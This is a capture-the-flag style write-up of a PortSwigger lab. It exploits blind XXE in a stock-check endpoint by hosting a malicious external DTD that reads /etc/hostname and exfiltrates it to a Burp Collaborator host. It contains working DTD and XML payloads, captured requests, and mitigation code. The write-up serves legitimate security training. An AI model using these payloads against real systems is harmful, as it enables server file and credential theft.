



# Lab 05: Exploiting Blind XXE to Exfiltrate Data Using a Malicious External DTD

> **Topic**: XXE (XML External Entity) Injection
> **Lab Number**: 05
> **Platform**: PortSwigger Web Security Academy

## Category
XXE Injection — Blind Data Exfiltration via External DTD with Nested Parameter Entities

## Vulnerability Summary
The stock-check endpoint is vulnerable to blind XXE — no entity values are reflected in the response. By hosting a malicious external DTD on Burp Collaborator and loading it via a parameter entity in the DOCTYPE, the server fetches the DTD, processes its nested parameter entity declarations, reads `/etc/hostname`, and exfiltrates the file contents as a URL parameter in an outbound HTTP request back to Collaborator. The hostname value `029479a9ec35` was recovered from the HTTP request path `GET /?file=029479a9ec35`.

## Attack Methodology

### Step 1: Host a Malicious External DTD on Collaborator
The external DTD uses nested parameter entities to read a local file and embed its contents into an outbound URL. Hosted at the Collaborator subdomain:

```
http://wppmozagf0zvhbv4eg3xmuny8pei29qy.oastify.com/malicious.dtd
```

DTD contents:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://wppmozagf0zvhbv4eg3xmuny8pei29qy.oastify.com/?file=%file;'>">
%eval;
%exfil;
```

How it works:
1. `%file` — reads `/etc/hostname` into a parameter entity
2. `%eval` — dynamically declares a new parameter entity `%exfil` whose `SYSTEM` URL embeds `%file;` (the file contents) as a query parameter
3. `%eval;` — triggers the dynamic declaration
4. `%exfil;` — fires the outbound HTTP request carrying the file contents

### Step 2: Inject the DOCTYPE to Load the External DTD
Sent the following XML to the stock-check endpoint:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://wppmozagf0zvhbv4eg3xmuny8pei29qy.oastify.com/malicious.dtd"> %xxe;]>
<stockCheck>
    <productId>3</productId>
    <storeId>1</storeId>
</stockCheck>
```

The server fetched the external DTD, processed all three parameter entity references, and made an outbound HTTP request with the file contents in the URL.

### Step 3: Recover the Exfiltrated Data from Collaborator
Polled Burp Collaborator — 6 interactions received across two rounds (the payload was sent twice):

| # | Time (UTC) | Type | Source IP |
|---|---|---|---|
| 1 | 08:57:14.435 | DNS | 3.251.95.140 |
| 2 | 08:57:14.435 | DNS | 3.248.186.213 |
| 3 | 08:57:14.440 | HTTP | 34.253.173.2 |
| 4 | 08:58:48.619 | DNS | 3.251.105.76 |
| 5 | 08:58:48.619 | DNS | 3.248.186.152 |
| 6 | 08:58:48.623 | HTTP | 34.253.173.2 |

Inspecting the HTTP request (interaction #6):

```
GET /?file=029479a9ec35 HTTP/1.1
User-Agent: Java/21.0.1
Host: wppmozagf0zvhbv4eg3xmuny8pei29qy.oastify.com
Accept: */*
Connection: keep-alive
```

**Exfiltrated value: `029479a9ec35`** — the contents of `/etc/hostname`. Lab solved.







## Technical Root Cause

The XML parser fetches and processes external DTDs referenced via parameter entities. The nested parameter entity trick works because:

1. The outer DTD (`%xxe`) is fetched from an attacker-controlled server
2. Inside that DTD, `%eval` contains a string that itself declares another parameter entity (`%exfil`) — this is only valid inside an external DTD, not an inline DOCTYPE
3. When `%eval;` is processed, the inner entity declaration is parsed, embedding the already-resolved `%file;` value into the `SYSTEM` URL
4. `%exfil;` then fires the HTTP request with the file contents in the URL

The `User-Agent: Java/21.0.1` header confirms the server is running Java — the XML parser making the request is the JDK's built-in XML processor.

### Why This Requires an External DTD
Nested parameter entity references (`%entity;` inside another entity's value) are forbidden in inline DOCTYPE declarations by the XML spec, but are permitted inside external DTD subsets. This is why the attack requires hosting the DTD externally — the inline DOCTYPE is only used to load it.

## Impact
- **Arbitrary File Read Without Reflection**: Any file readable by the web server process can be exfiltrated with no in-band response channel needed
- **Credential and Secret Theft**: `/etc/passwd`, application config files, private keys, and cloud credentials are all reachable
- **Confirmed Java Runtime**: The `User-Agent` header leaks the exact JDK version (`Java/21.0.1`), useful for targeting known Java XML parser CVEs

## Proof of Concept

**External DTD** (hosted at `http://<collaborator>/malicious.dtd`):
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://<collaborator>/?file=%file;'>">
%eval;
%exfil;
```

**XXE payload** (sent to `/product/stock`):
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<collaborator>/malicious.dtd"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Check Collaborator HTTP interactions for `?file=<contents>`.

## Key Takeaways
1. **External DTDs Unlock Nested Parameter Entities**: The XML spec prohibits nested `%entity;` references in inline DOCTYPEs but allows them in external DTD subsets. This is the fundamental reason blind XXE exfiltration requires an external DTD — it's not a parser quirk, it's spec-defined behaviour.
2. **File Contents Travel in the URL**: The exfiltrated data appears as a query parameter in the outbound HTTP request. This means multi-line files or files with special characters may need encoding — `/etc/hostname` works cleanly because it's a single short token.
3. **User-Agent Leaks Runtime**: The `Java/21.0.1` User-Agent identifies the XML parser making the request. This is useful for fingerprinting the server stack and targeting parser-specific CVEs.
4. **Two Rounds of Interactions**: The 6 Collaborator interactions (two sets of DNS+HTTP) show the payload was sent twice — each send triggers a fresh DTD fetch and a fresh exfiltration request, confirming the attack is fully repeatable.

## Mitigation

```python
# Disable external DTD fetching and entity resolution entirely
parser = etree.XMLParser(resolve_entities=False, no_network=True, load_dtd=False)
```

```java
// Block DOCTYPE declarations — prevents both inline and external DTD processing
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

Additionally, restrict outbound network access from the application server to prevent DTD fetching even if the parser is misconfigured.

## References
- [PortSwigger XXE Lab — Exploiting blind XXE to exfiltrate data using a malicious external DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)
- [PortSwigger XXE — Exfiltrating data using a malicious external DTD](https://portswigger.net/web-security/xxe/blind#exfiltrating-data-using-a-malicious-external-dtd)
- [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater, Collaborator)
- Chromium

---

*Lab completed on: 2026-05-15*
*Writeup by vibhxr*
